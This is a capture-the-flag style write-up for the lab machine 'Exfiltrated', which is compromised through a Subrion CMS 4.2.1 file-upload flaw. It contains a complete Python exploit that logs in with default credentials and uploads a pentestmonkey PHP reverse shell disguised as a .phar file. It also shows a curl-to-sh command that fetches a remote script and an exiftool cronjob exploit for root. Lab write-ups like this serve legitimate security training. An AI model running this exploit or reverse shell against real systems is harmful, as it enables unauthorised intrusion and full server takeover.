

# Recon

This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.199.163 exfiltrated.offsec
```
## Nmap
```
nmap -p- --open -sC -sV exfiltrated.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


The `http-robots.txt` found an admin panel at `/panel/`
- we can log in to the panel using `admin:admin`
- however, notice that the application is __**Powered by Subrion CMS v4.2.1**__

## Searchsploit
Running searchsploit for this shows the following


In a sea of txt files, I like to look at python files first
- this shows an arbitrary file upload
- download the script using `searchsploit -m php/webapps/49876.py`

# Exploitation
From reading the script, we need to use the flags `-u` `-l` and `-p`


The script found in searchsploit gives us local access on Exfiltrated as the user `www-data`
- However, the script is a webshell and it makes requests to the shell using a command that we enter
- In order to get a fully functional reverse shell, we can manipulate the script to upload a reverse shell

The main changes are as follows:
- I will use another process (`import subprocess`) to create a netcat reverse shell so only one script needs to be run.
- URL is hardcoded to `http://exfiltrated.offsec/panel`. This simplifies the script so it does not need any flags, so make sure that the ip is set in `/etc/hosts` file
- The `shell_upload()` function replaced the old php webshell file with a reverse shell
- I will use the following php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and save it in a `.phar` extension to evade any php file extension blacklists if there are any

**The full script is below:**
- change the IP in the php reverse shell to point to your host
```
#!/usr/bin/python3

import requests
import time
import random
import string
from bs4 import BeautifulSoup
import subprocess

url = "http://exfiltrated.offsec/panel/"
url_upload = url + 'uploads/read.json'
url_shell = url + 'uploads/'
username = "admin"
password = "admin"
netcat_port = 1234

session = requests.Session()

def login():
    global csrfToken
    print('[+] Trying to connect to: ' + url)

    try:
        get_token_request = session.get(url)
        soup = BeautifulSoup(get_token_request.text, 'html.parser')

        csrfToken = soup.find('input', attrs={'name': '__st'})['value']
        print('[+] Success!')
        time.sleep(1)

        if csrfToken:
            print(f"[+] Got CSRF token: {csrfToken}")
            print("[+] Trying to log in...")

            auth_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5",
                            "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://exfiltrated.offsec", "Connection": "close", "Referer": "http://exfiltrated.offsec/login/", "Upgrade-Insecure-Requests": "1"}
            auth_data = {"__st": csrfToken, "username": username, "password": password}
            auth = session.post(url, headers=auth_headers, data=auth_data)
            if len(auth.text) <= 7000:
                    print('\n[x] Login failed... Check credentials')
                    exit()
            else:
                    print('[+] Login Successful!\n')
        else:
            print('[x] Failed to got CSRF token')
            exit()

    except requests.exceptions.ConnectionError as err:
        print('\n[x] Failed to Connect in: '+url+' ')
        print('[x] This host seems to be Down')
        exit()

    return csrfToken

def name_rnd():
    global shell_name
    print('[+] Generating random name for Webshell...')
    shell_name = ''.join((random.choice(string.ascii_lowercase)
                         for x in range(15)))
    time.sleep(1)
    print('[+] Generated webshell name: '+shell_name+'\n')

    return shell_name
         
def shell_upload():
    print('[+] Trying to Upload Webshell..')
    try:
        up_url = url_upload
        up_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "Accept": "*/*",
            "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "multipart/form-data; boundary=---------------------------870492933289164732357145027",
            "Origin": "http://exfiltrated.offsec",
            "Connection": "close",
            "Referer": "http://exfiltrated.offsec/panel/uploads/"
        }
        up_data = """-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="reqid"

18c48efa225203
-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="cmd"

upload
-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="target"

l1_Lw
-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="__st"

"""+csrfToken+"""
-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="upload[]"; filename=\""""+shell_name+""".phar"
Content-Type: application/octet-stream

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.185'; // CHANGE THIS
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

-----------------------------870492933289164732357145027
Content-Disposition: form-data; name="mtime[]"

1702030664
-----------------------------870492933289164732357145027--"""
        res = session.post(up_url, headers=up_headers, data=up_data)
        if "error" in res.text:
             print('[x] Shell upload failure: '+url_upload+' ')
        else:
            print('[x] Shell upload success: '+url_upload+' ')

    except requests.exceptions.HTTPError as conn:
        print('[x] Failed to Upload Webshell in: '+url_upload+' ')
        exit()

def code_exec():
    auth_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5",
                            "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://exfiltrated.offsec", "Connection": "close", "Referer": "http://exfiltrated.offsec/login/", "Upgrade-Insecure-Requests": "1"}
    shell_url = "http://exfiltrated.offsec/uploads/"+shell_name+".phar"
    req = session.get(shell_url, headers=auth_headers)

login()
name_rnd()
shell_upload()
subprocess.Popen(f"nc -nvlp {netcat_port}", shell=True)
code_exec()
```

I saved this code in a file called `poc.py` and ran it with `python3 poc.py`


To get a fully functional shell follow the commands below
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```

## Privilege Escalation
To assess the attack surface, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
```
curl http://192.168.45.185/linpeas.sh | sh
```

### Linpeas Results
From the scan results, we can see a cronjob is running.


Reading the script `image-exif.sh` in the `/opt` directory shows that it is executing the command `exiftool` on `jpg` files in the `/uploads` directory 


#### Exiftool Arbitrary Code Execution
Searching for an exiftool exploit, we come across the following [Arbitrary Code Execution](https://www.exploit-db.com/exploits/50911) script
- this script will generate an image that will be processed by the cronjob
- run the script using `-s` flag for reverse shell and your kali IP and port
- running the command `searchsploit exiftool` will result in the same script
- download the script with `searchsploit -m linux/local/50911.py`
```
python3 50911.py -s 192.168.45.185 4444
```

Move to the `/var/www/html/subrion/uploads/` directory on the target then download the processed image from host
- start python server in the directory with the image `python3 -m http.server 80`
- then, the curl command below will download and save the image file into the directory that the cronjob is processing
```
curl http://<kali_ip>/image.jpg -o image.jpg
```

Start a netcat listener on port specified when creating the `image.jpg` file
- In my case, port 4444.
```
nc -lnvp 4444
```
- then wait for the cronjob to fire


# Summary
The blog post "Exfiltrated" outlines the exploitation of a Linux machine by leveraging an arbitrary file upload vulnerability in Subrion CMS v4.2.1. The author gains initial access as www-data through a modified Python script, further enhancing control with a PHP reverse shell. Privilege escalation is achieved by exploiting a cronjob through a crafted image file, ultimately securing root access on the target machine.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points